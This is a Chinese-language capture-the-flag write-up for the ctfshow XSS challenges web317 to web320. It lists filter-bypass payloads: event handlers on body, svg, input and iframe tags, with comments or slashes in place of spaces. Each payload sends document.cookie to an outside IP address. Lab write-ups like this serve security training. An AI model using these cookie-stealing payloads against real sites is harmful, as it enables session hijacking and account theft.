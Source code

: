 获得 cookie

```
ctfshow%7Bef007b84-226c-486c-9df5-d75c938eedd0%7D
```

## web317

script被过滤了

使用 `<body onload=alert(1)></body>` 显示弹窗

```
<body onload="window.open('http://43.142.255.132/'+document.cookie)"></body>
```

收到 flag

<img src="图片\Snipaste_2023-02-02_17-21-09.png" alt="Snipaste_2023-02-02_17-21-09" style="zoom:80%;" />



## web318

测试过滤了img

```
<body onload="window.open('http://43.142.255.132/'+document.cookie)"></body>
```

```
<input onload="window.location.href='http://43.142.255.132/'+document.cookie;">
<svg onload="window.location.href='http://43.142.255.132/'+document.cookie;">
```

## web319

空格被ban，用`/**/`来替代

```
<iframe/**/onload="window.open('http://43.142.255.132/'+document.cookie)"></iframe>
```

```
<svg/**/onload="window.location.href='http://43.142.255.132/'+document.cookie;">
```

## web320

过滤空格 用 / 代替

```
<svg/onload="window.location.href='http://43.142.255.132/'+document.cookie;">
```
